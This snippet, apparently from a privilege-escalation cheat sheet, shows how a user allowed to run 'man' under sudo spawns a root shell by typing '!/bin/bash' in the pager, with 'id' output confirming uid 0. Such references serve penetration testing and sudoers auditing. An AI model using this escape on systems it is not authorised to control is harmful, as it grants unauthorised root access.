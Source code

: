 # Man Page

## Spawn Shell

```
user@debian:~$ sudo man man
!/bin/bash

root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```